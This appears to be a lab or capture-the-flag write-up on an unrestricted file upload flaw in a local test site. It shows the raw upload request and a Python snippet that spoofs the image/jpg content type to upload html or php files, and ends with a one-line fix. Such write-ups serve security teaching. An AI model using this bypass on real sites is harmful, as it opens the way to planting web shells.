 # Unrestricted file upload

## Exploitation

On the homepage, on the bottom, there is some images and 2 buttons **ADD IMAGE** and **SEARCH IMAGE**. On the "add image" page (http://192.168.1.48/index.php?page=upload), there is a form. We can upload some images.

After many tries, the form only accept `jpg` images, not pmg and not other files. We can check the raw request on the developper tools when we posting an image

```
-----------------------------42702836962405046798154987984
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------42702836962405046798154987984
Content-Disposition: form-data; name="uploaded"; filename=""
Content-Type: application/octet-stream


-----------------------------42702836962405046798154987984
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------42702836962405046798154987984--
```

This is a `multipart/form-data` (as we can see on the html). We can try to send a request to post other filetypes in python, by building the request manually and adding the `Content-Type: image/jpg`

```py
files = {
    'MAX_FILE_SIZE': (None, '100000'),
    'uploaded': ('index.html', open('index.html','rb'), 'image/jpg'),
    'Upload': (None, 'Upload')
}
requests.post("http://192.168.1.48/index.php?page=upload#", files=files)
```

It works! We can upload some html or php files

## How to fix it?

On the backend, the code need to do a second check on the uploaded file
